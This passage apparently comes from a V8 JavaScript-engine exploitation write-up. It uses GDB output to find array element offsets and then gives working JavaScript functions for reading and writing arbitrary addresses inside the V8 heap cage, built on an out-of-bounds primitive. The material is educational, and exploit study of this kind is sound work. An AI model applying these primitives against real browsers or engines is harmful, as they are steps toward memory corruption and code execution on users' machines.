 This time, we would need to get the offset between:
- `oob_arr[0]` and `&c_aar_arr.elements`
- `oob_arr[0]` and `&c_aaw_arr.elements`

We could repeat the same process when finding `OBJ_LEAKER_OFFSET`, but this time
we would use GDB to see the value of `c_aar_arr.elements`

```js
for (let i = 0; i < 0x40; i++) {
    print(hex(i), hex(oob_read32(i)))
}
eval("%DebugPrint(c_aar_arr)")
eval("%DebugPrint(c_aaw_arr)")
```

```console
$ gdb -ex 'run' --args './d8 --allow-natives-syntax --shell ./pwn.js'
[snip]
0x13 0x6cd
0x14 0x5594bd
0x15 0x2
[snip]
0x21 0x6cd
0x22 0x5594f5
0x23 0x2
[snip]
gef> tele 0x327e005594a5-0x1 2
0x327e005594a4|+0x0000|+000: 0x000006cd0018efb1
0x327e005594ac|+0x0008|+001: 0x00000002005594bd
gef> tele 0x327e005594dd-0x1 2
0x327e005594dc|+0x0000|+000: 0x000006cd0018efb1
0x327e005594e4|+0x0008|+001: 0x00000002005594f5
```

The final working primitive:

```js
const c_aar_arr_elements_offset = 0x14
const c_aaw_arr_elements_offset = 0x22

function caged_arb_read32(addr) {
    let elements = addr - 8n | 1n;
    oob_write32(c_aar_arr_elements_offset, elements)
    let leak = lo(ftoi(c_aar_arr[0]))
    return leak
}

function caged_arb_read64(addr) {
    let elements = addr - 8n | 1n;
    oob_write32(c_aar_arr_elements_offset, elements)
    let leak = ftoi(c_aar_arr[0])
    return leak
}

function caged_arb_write32(addr, val) {
    let elements = addr - 8n | 1n;
    let temp = caged_arb_read32(addr+4n)
    oob_write32(c_aaw_arr_elements_offset, elements)
    c_aaw_arr[0] = itof((temp << 32n) | val)
}

function caged_arb_write64(addr, val) {
    let elements = addr - 8n | 1n;
    oob_write32(c_aaw_arr_elements_offset, elements)
    c_aaw_arr[0] = itof(val)
}
```